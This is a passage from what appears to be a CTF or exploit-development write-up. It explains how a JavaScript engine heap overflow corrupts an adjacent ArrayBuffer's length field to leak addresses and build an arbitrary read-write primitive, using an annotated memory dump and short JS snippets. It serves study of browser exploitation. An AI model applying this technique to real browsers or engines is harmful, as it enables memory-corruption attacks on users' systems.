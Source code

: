 ```
                  +-> Pointer
                  |   pointing to          +-> flags
                  |   first view           |
0x7f8e13a882b0:  0xfffe7f8e15e00480  0xfff8800000000000

0x7f8e13a882c0:  0x0000000000000080  0x0000000000000000  # data buffer. Size is
0x7f8e13a882d0:  0x0000000000000000  0x0000000000000000  # 0x20 bytes

0x7f8e13a882e0:  0x00007f8e13a798e0  0x00007f8e13aa1768  # Next ArrayBuffer in the
0x7f8e13a882f0:  0x0000000000000000  0x000055d6ee8ead80  # buf array
0x7f8e13a88300:  0x00003fc709d44190  0xfff8800000000020
0x7f8e13a88310:  0xfffa000000000000  0xfff8800000000000

0x7f8e13a88320:  0x0000000000000000  0x0000000000000000  # data buffer of the second
0x7f8e13a88330:  0x0000000000000000  0x0000000000000000  # ArrayBuffer

0x7f8e13a88340:  0x00007f8e13a798e0  0x00007f8e13aa1768
0x7f8e13a88350:  0x0000000000000000  0x000055d6ee8ead80
0x7f8e13a88360:  0x00003fc709d441c0  0xfff8800000000020
0x7f8e13a88370:  0xfffa000000000000  0xfff8800000000000

0x7f8e13a88380:  0x0000000000000000  0x0000000000000000
0x7f8e13a88390:  0x0000000000000000  0x0000000000000000

```

Now if we have an overflow in the data buffer of the second element on the `buf` array, then we can go and edit the metadata of the consecutive `ArrayBuffer`. We can target the length field of the `ArrayBuffer`, which is the one that actually specifies the length of the data buffer. Once we increase that, the third `ArrayBuffer` in the `buf` array attains an arbitrary size. Thus now the data buffer of the third `ArrayBuffer` overlaps with the fourth `ArrayBuffer` and this allows us to leak stuff out from the metadata of the fourth `ArrayBuffer`!

In the above code, we edit the length of the `ArrayBuffer` at index 6 and set it to `0x80`. Thus now we can leak data from the metadata of the 7th element and get the leaks that we want!

```js

leaker = new Uint8Array(buf[7]);
aa = new Uint8Array(buf[6]);

leak = aa.slice(0x50,0x58);
group = aa.slice(0x40,0x48);
```

Here, the `leak` is the address of the first view of this `ArrayBuffer` which is a `Uint8Array` view (the leaker object). `group` is the address of this `ArrayBuffer`. Right, so now that we have the leaks, we need to convert this into an arbitrary read-write primitive. For that we will edit the shifted pointer to data buffer of the `ArrayBuffer` at index 7 to point to an arbitrary address. Let's keep this arbitrary address as the address of the `Uint8Array` that we just leaked. Thus, the next time we create a view on that `ArrayBuffer`, its data buffer will be pointing to a `Uint8Array` (i.e `leaker`).
